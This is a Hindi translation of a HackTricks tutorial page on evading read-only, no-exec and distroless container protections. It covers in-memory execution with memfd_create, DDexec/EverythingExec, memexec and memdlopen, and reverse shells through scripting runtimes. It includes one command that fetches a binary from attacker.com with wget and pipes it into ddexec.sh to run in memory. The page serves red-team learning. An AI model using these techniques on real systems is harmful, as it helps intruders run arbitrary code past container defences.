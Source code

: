# FS सुरक्षा को बायपास करें: केवल पढ़ने के लिए / कोई निष्पादन नहीं / डिस्ट्रोलैस

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

यदि आप **हैकिंग करियर** में रुचि रखते हैं और अ-हैक करने योग्य को हैक करना चाहते हैं - **हम भर्ती कर रहे हैं!** (_फ्लूएंट पोलिश लिखित और मौखिक आवश्यक है_)।

{% embed url="https://www.stmcyber.com/careers" %}

## वीडियो

नीचे दिए गए वीडियो में आप इस पृष्ठ में उल्लेखित तकनीकों को अधिक गहराई से समझ सकते हैं:

* [**DEF CON 31 - Linux मेमोरी हेरफेर का अन्वेषण करना**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ng और इन-मेमोरी dlopen() के साथ स्टेल्थ घुसपैठ - HackTricks ट्रैक 2023**](https://www.youtube.com/watch?v=VM_gjjiARaU)

## केवल पढ़ने के लिए / कोई निष्पादन नहीं परिदृश्य

यह अधिक से अधिक सामान्य होता जा रहा है कि लिनक्स मशीनें **केवल पढ़ने के लिए (ro) फ़ाइल प्रणाली सुरक्षा** के साथ माउंट की जाती हैं, विशेष रूप से कंटेनरों में। इसका कारण यह है कि ro फ़ाइल प्रणाली के साथ कंटेनर चलाना **`readOnlyRootFilesystem: true`** को `securitycontext` में सेट करने जितना आसान है:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

हालांकि, भले ही फ़ाइल प्रणाली ro के रूप में माउंट की गई हो, **`/dev/shm`** अभी भी लिखने योग्य होगा, इसलिए यह गलत है कि हम डिस्क में कुछ भी नहीं लिख सकते। हालाँकि, यह फ़ोल्डर **कोई निष्पादन सुरक्षा** के साथ माउंट किया जाएगा, इसलिए यदि आप यहाँ एक बाइनरी डाउनलोड करते हैं, तो आप **इसे निष्पादित नहीं कर पाएंगे**।

{% hint style="warning" %}
रेड टीम के दृष्टिकोण से, यह **बाइनरी डाउनलोड और निष्पादित करना जटिल बनाता है** जो पहले से सिस्टम में नहीं हैं (जैसे बैकडोर या `kubectl` जैसे एन्यूमरेटर)।
{% endhint %}

## सबसे आसान बायपास: स्क्रिप्ट

ध्यान दें कि मैंने बाइनरी का उल्लेख किया, आप **किसी भी स्क्रिप्ट को निष्पादित कर सकते हैं** जब तक कि इंटरप्रेटर मशीन के अंदर हो, जैसे कि **शेल स्क्रिप्ट** यदि `sh` मौजूद है या **पायथन** **स्क्रिप्ट** यदि `python` स्थापित है।

हालांकि, यह आपके बाइनरी बैकडोर या अन्य बाइनरी उपकरणों को चलाने के लिए पर्याप्त नहीं है।

## मेमोरी बायपास

यदि आप एक बाइनरी निष्पादित करना चाहते हैं लेकिन फ़ाइल प्रणाली इसकी अनुमति नहीं दे रही है, तो ऐसा करने का सबसे अच्छा तरीका है **इसे मेमोरी से निष्पादित करना**, क्योंकि **सुरक्षाएँ वहाँ लागू नहीं होती हैं**।

### FD + exec syscall बायपास

यदि आपके पास मशीन के अंदर कुछ शक्तिशाली स्क्रिप्ट इंजन हैं, जैसे **Python**, **Perl**, या **Ruby**, तो आप मेमोरी से निष्पादित करने के लिए बाइनरी डाउनलोड कर सकते हैं, इसे एक मेमोरी फ़ाइल डिस्क्रिप्टर (`create_memfd` syscall) में स्टोर कर सकते हैं, जो उन सुरक्षा द्वारा संरक्षित नहीं होगा और फिर **`exec` syscall** को कॉल कर सकते हैं, जिसमें **fd को निष्पादित करने के लिए फ़ाइल के रूप में इंगित किया गया है**।

इसके लिए आप आसानी से प्रोजेक्ट [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) का उपयोग कर सकते हैं। आप इसे एक बाइनरी पास कर सकते हैं और यह निर्दिष्ट भाषा में एक स्क्रिप्ट उत्पन्न करेगा जिसमें **बाइनरी संकुचित और b64 एन्कोडेड** होगी और इसे **डिकोड और अनकंप्रेस** करने के लिए निर्देश होंगे, एक **fd** में जो `create_memfd` syscall को कॉल करके बनाया गया है और इसे चलाने के लिए **exec** syscall को कॉल किया गया है।

{% hint style="warning" %}
यह अन्य स्क्रिप्टिंग भाषाओं जैसे PHP या Node में काम नहीं करता क्योंकि उनके पास स्क्रिप्ट से कच्चे syscalls को कॉल करने का कोई डिफ़ॉल्ट तरीका नहीं है, इसलिए `create_memfd` को कॉल करके **मेमोरी fd** बनाने की संभावना नहीं है।

इसके अलावा, `/dev/shm` में एक फ़ाइल के साथ एक **नियमित fd** बनाना काम नहीं करेगा, क्योंकि आपको इसे चलाने की अनुमति नहीं होगी क्योंकि **कोई निष्पादन सुरक्षा** लागू होगी।
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) एक तकनीक है जो आपको **अपने स्वयं के प्रोसेस की मेमोरी को संशोधित करने** की अनुमति देती है, इसके **`/proc/self/mem`** को ओवरराइट करके।

इसलिए, **प्रक्रिया द्वारा निष्पादित हो रहे असेंबली कोड को नियंत्रित करते हुए**, आप एक **शेलकोड** लिख सकते हैं और प्रक्रिया को "म्यूट" कर सकते हैं ताकि **कोई भी मनमाना कोड निष्पादित किया जा सके**।

{% hint style="success" %}
**DDexec / EverythingExec** आपको **मेमोरी** से अपने स्वयं के **शेलकोड** या **कोई बाइनरी** लोड और **निष्पादित** करने की अनुमति देगा।
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
For more information about this technique check the Github or:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) DDexec का स्वाभाविक अगला कदम है। यह एक **DDexec शेलकोड डेमोनाइज्ड** है, इसलिए हर बार जब आप **एक अलग बाइनरी चलाना चाहते हैं** तो आपको DDexec को फिर से लॉन्च करने की आवश्यकता नहीं है, आप बस DDexec तकनीक के माध्यम से memexec शेलकोड चला सकते हैं और फिर **नए बाइनरी लोड और चलाने के लिए इस डेमोन के साथ संवाद कर सकते हैं**।

आप [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php) पर **memexec का उपयोग करके PHP रिवर्स शेल से बाइनरी निष्पादित करने** का एक उदाहरण पा सकते हैं।

### Memdlopen

DDexec के समान उद्देश्य के साथ, [**memdlopen**](https://github.com/arget13/memdlopen) तकनीक **बाइनरी को लोड करने का एक आसान तरीका** प्रदान करती है ताकि बाद में उन्हें निष्पादित किया जा सके। यह यहां तक कि निर्भरताओं के साथ बाइनरी लोड करने की अनुमति भी दे सकती है।

## Distroless Bypass

### What is distroless

Distroless कंटेनर केवल **विशिष्ट एप्लिकेशन या सेवा को चलाने के लिए आवश्यक न्यूनतम घटक** होते हैं, जैसे कि पुस्तकालय और रनटाइम निर्भरताएँ, लेकिन पैकेज प्रबंधक, शेल, या सिस्टम उपयोगिताओं जैसे बड़े घटकों को बाहर करते हैं।

Distroless कंटेनरों का लक्ष्य **अनावश्यक घटकों को समाप्त करके कंटेनरों के हमले की सतह को कम करना** और उन कमजोरियों की संख्या को कम करना है जिन्हें शोषित किया जा सकता है।

### Reverse Shell

एक distroless कंटेनर में आप **शायद `sh` या `bash` भी नहीं पाएंगे** ताकि एक नियमित शेल प्राप्त किया जा सके। आप `ls`, `whoami`, `id` जैसे बाइनरी भी नहीं पाएंगे... सब कुछ जो आप आमतौर पर एक सिस्टम में चलाते हैं।

{% hint style="warning" %}
इसलिए, आप **रिवर्स शेल** प्राप्त करने या **सिस्टम की गणना** करने में सक्षम **नहीं होंगे** जैसे आप आमतौर पर करते हैं।
{% endhint %}

हालांकि, यदि समझौता किया गया कंटेनर उदाहरण के लिए एक फ्लास्क वेब चला रहा है, तो फिर पायथन स्थापित है, और इसलिए आप एक **Python रिवर्स शेल** प्राप्त कर सकते हैं। यदि यह नोड चला रहा है, तो आप एक नोड रिव शेल प्राप्त कर सकते हैं, और अधिकांश **स्क्रिप्टिंग भाषा** के साथ भी यही है।

{% hint style="success" %}
स्क्रिप्टिंग भाषा का उपयोग करके आप **सिस्टम की गणना** कर सकते हैं भाषा की क्षमताओं का उपयोग करके।
{% endhint %}

यदि **कोई `read-only/no-exec`** सुरक्षा नहीं है तो आप अपने रिवर्स शेल का दुरुपयोग करके **फाइल सिस्टम में अपने बाइनरी लिख सकते हैं** और **उन्हें निष्पादित** कर सकते हैं।

{% hint style="success" %}
हालांकि, इस प्रकार के कंटेनरों में ये सुरक्षा आमतौर पर मौजूद होंगी, लेकिन आप **पिछली मेमोरी निष्पादन तकनीकों का उपयोग करके उन्हें बायपास कर सकते हैं**।
{% endhint %}

आप [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE) पर **कुछ RCE कमजोरियों का शोषण करने** के उदाहरण पा सकते हैं ताकि स्क्रिप्टिंग भाषाओं के **रिवर्स शेल** प्राप्त कर सकें और मेमोरी से बाइनरी निष्पादित कर सकें।

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

यदि आप **हैकिंग करियर** में रुचि रखते हैं और अचूक को हैक करना चाहते हैं - **हम भर्ती कर रहे हैं!** (_फ्लूएंट पोलिश लिखित और मौखिक आवश्यक_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) की जांच करें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें PRs को [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में सबमिट करके।**

</details>
{% endhint %}
